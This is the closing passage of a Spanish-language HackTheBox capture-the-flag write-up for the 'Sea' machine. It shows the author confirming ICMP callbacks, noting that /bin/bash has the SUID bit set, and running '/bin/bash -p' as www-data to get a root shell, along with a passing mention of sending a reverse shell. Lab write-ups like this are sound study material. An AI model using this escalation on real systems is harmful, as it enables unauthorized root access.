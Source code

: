 Puedo ver que si recibe las trazas icmp, por lo que sabiendo esto perfectamente me podría envíar una shell hacia mi máquina de atacante o dar permisos SUID al binario /bin/bash.

![imagen](https://github.com/user-attachments/assets/1bd166ff-449b-4471-aaa0-822ac9e49aa2)

```bash
www-data@sea:/$ ls -l /bin/bash
-rwsrwxrwx 1 root root 1183448 Apr 18  2022 /bin/bash
www-data@sea:/$
```

```bash
www-data@sea:/$ /bin/bash -p
bash-5.0# whoami
root
```

* [HackTheBox Machine Achievement](https://www.hackthebox.com/achievement/machine/1670792/620)

<div align="center"><img alt="pwned" src="https://github.com/user-attachments/assets/ac53ea2c-ccf8-4d40-9582-a8e49114752a"></div>
